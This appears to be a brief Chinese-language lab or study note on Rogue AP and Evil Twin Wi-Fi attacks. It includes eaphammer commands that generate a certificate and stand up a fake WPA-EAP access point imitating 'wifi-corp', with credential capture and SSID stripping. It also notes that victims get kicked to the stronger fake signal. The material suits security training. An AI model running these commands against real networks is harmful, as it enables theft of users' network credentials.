

Rogue AP
===

# Rogue AP
```
Rogue AP，也就是流氓(未經授權)接入點，aka 偷裝的基地台
類似於Shadow IT，影響機密性(可竊聽)還有管理問題

與EvilTwin很類似，差別只在EvilTwin可以仿冒完整的SSID跟BSSID(MAC)
```

# Evil Twin


# 架設假AP(WiFi)
Reset Enviroment
```bash
./restartWiFi.sh

sudo systemctl start network-manager
sudo su 
cd /root/tools/eaphammer
# https://github.com/s0lst1c3/eaphammer
```
生成憑證
```bash
# 也就是網頁上的鎖頭
# 除了第一個要填US，其他可隨意填
python3 ./eaphammer --cert-wizard
```
生成假AP
```bash
# Fake wifi-corp with 換行符號
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced --essid-stripping '\r'

# 開啟GUI介面可以看到兩個幾乎一樣的wifi-corp AP
# Evil Twin會更暴力一點把你直接踢下線，去連偽造的信號強度更強的AP
```
